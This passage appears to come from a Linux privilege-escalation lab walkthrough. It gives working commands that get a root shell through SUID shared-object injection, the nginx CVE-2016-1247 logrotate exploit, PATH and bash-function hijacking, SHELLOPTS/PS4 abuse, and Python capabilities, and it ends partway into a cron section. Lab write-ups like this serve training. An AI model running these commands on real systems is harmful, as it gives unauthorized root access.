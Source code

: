 Then in command line type ```gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c``` after building the lib file just type ```/usr/local/bin/suid-so```

And we get the root shell.

## Privilege Escalation - SUID (Symlinks)

```dpkg -l | grep nginx``` shows that nginx version is below 1.6.2-5+deb8u3. After searching cve we found that there is a cve exists for below this version (CVE-2016-1247). So, let us try to exploit it. Let's login as www-data with ```su -l www-data``` in root shell then in command prompt type ```/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log``` At this stage, the system waits for logrotate to execute. One logrotate executes we get the root terminal here.

### For testing 
Let us open another therminal and login as root with the given root pass. As root type ```invoke-rc.d nginx rotate >/dev/null 2>&1```

## Privilege Escalation - SUID (Environment Variables \#1)

Find the SUID enabled binary as earlier. Then in terminal type 
```bash
$echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
$gcc /tmp/service.c -o /tmp/service
$export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
And we get to the root shell.

## Privilege Escalation - SUID (Environment Variables \#2)

We have found that we have 2 SUID env so now we will use the second one to escalate our privilege.

Exploitation Method \#1

In command prompt type: ```function /usr/sbin/service() {cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p;}``` Now ```export -f /user/sbin/service``` and then ```/usr/local/bin/suid-env2``` and we get to root shell.

Exploitation Method \#2

In command prompt tyhpe: ```env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'``` and root shell is there.

## Privilege Escalation - Using capabilities

```$getcap -r / 2>/dev/null``` will give you the list of binaries that has capabilities enabled. In our case we get **/usr/bin/python2.6**

Exploitation Method

```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
```

## Privilage Escalation - Cron (PATH)

From ```cat /etc/crontab```  command we can see that there is a script called overwrite.sh that runs every minute without absolute location which can be used to escalate privilege as follows
